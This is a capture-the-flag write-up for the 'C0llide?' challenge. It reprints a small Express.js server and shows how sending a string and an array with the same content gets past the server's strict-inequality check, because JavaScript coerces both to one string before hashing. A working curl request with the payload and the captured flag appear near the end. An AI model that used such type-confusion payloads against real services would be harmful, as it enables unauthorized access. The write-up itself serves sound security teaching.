 # C0llide?

### Writeup by Segway, 250 points

`A target service is asking for two bits of information that have the same "custom hash", but can't be identical. Looks like we're going to have to generate a collision?`

The challenge page provides the source code for the challenge, which is provided below for reference: 

```js
const bodyParser = require("body-parser")
const express = require("express")
const fs = require("fs")
const customhash = require("./customhash")

const app = express()
app.use(bodyParser.json())

const port = 3000
const flag = "flag"
const secret_key = "Y0ure_g01nG_t0_h4v3_t0_go_1nto_h4rdc0r3_h4ck1ng_m0d3"

app.get('/', (req, res) => {
    console.log("[-] Source view")
    res.type("text")
    return fs.readFile("index.js", (err,data) => res.send(data.toString().replace(flag, "flag")))
})

app.post('/getflag', (req, res) => {
    console.log("[-] Getflag post")
    if (!req.body) {return res.send("400")}
    let one = req.body.one
    let two = req.body.two
    console.log(req.body)
    if (!one || !two) {
        return res.send("400")
    }
    if ((one.length !== two.length) || (one === two)) {
        return res.send("Strings are either too different or not different enough")
    }
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two) {
        console.log("[*] Flag get!")
        return res.send(flag)
    } else {
        return res.send(`${one} did not match ${two}!`)
    }
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```
In order to get the flag, we need to send a POST request to the `/getflag` endpoint with the parameters `one` and `two` such that they produce the same hash.

Although the challenge description implies that we might need to perform a hash collision, it is not feasible to do so for a custom algorithm. Instead, we can try to figure out a way to get the inputs to the hash function to match.

By looking at the source code, we can come to the following conclusions:

* The parameters passed must be valid JSON data types
* The parameters passed must have a valid length, and have equal length
* The parameters passed must not be equal in type and value (since a strict comparison is being used)
* The parameters passed must form the same string

The key to this challenge is in the strict comparison. Due to Javascript's weak typing, strings can be concatenated with non-string values:
```javascript
>> "hello" + 1
<  "hello1"

>> "hello" + [1]
< "hello1"
```

The implicit string conversion is based on the contents of the value.

If we provide values with different types, but the same content, we should be able to obtain the flag. Since we need data types with a valid length, we can use an array and a string:

```
curl -d '{"one": "1", "two": [1]}' -X POST "http://95.216.233.106:52827/getflag" -H "Content-Type: application/json"
```

(`curl` assumes POST data is in an URL format by default, hence the `Content-Type` header)

This gives us the flag: `ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}`
